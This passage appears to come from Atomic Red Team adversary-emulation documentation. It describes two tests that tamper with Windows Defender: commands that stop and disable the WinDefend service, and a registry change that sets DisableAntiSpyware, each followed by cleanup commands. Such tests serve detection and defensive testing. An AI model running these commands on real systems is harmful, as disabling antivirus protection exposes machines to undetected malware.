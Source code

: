 <br/>
<br/>

## Atomic Test #17 - Tamper with Windows Defender Command Prompt

Attempting to disable scheduled scanning and other parts of windows defender atp. These commands must be run as System, so they still fail as administrator.
However, adversaries do attempt to perform this action so monitoring for these command lines can help alert to other bad things going on. Upon execution, "Access Denied"
will be displayed twice and the WinDefend service status will be displayed.

**Supported Platforms:** Windows

**auto_generated_guid:** aa875ed4-8935-47e2-b2c5-6ec00ab220d2

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
sc stop WinDefend
sc config WinDefend start=disabled
sc query WinDefend
```

#### Cleanup Commands:

```cmd
sc start WinDefend >nul 2>&1
sc config WinDefend start=enabled >nul 2>&1
```

<br/>
<br/>

## Atomic Test #18 - Tamper with Windows Defender Registry

Disable Windows Defender from starting after a reboot. Upen execution, if the computer is rebooted the entire Virus and Threat protection window in Settings will be
grayed out and have no info.

**Supported Platforms:** Windows

**auto_generated_guid:** 1b3e0146-a1e5-4c5c-89fb-1bb2ffe8fc45

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
Set-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1
```

#### Cleanup Commands:

```powershell
Set-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 0
```
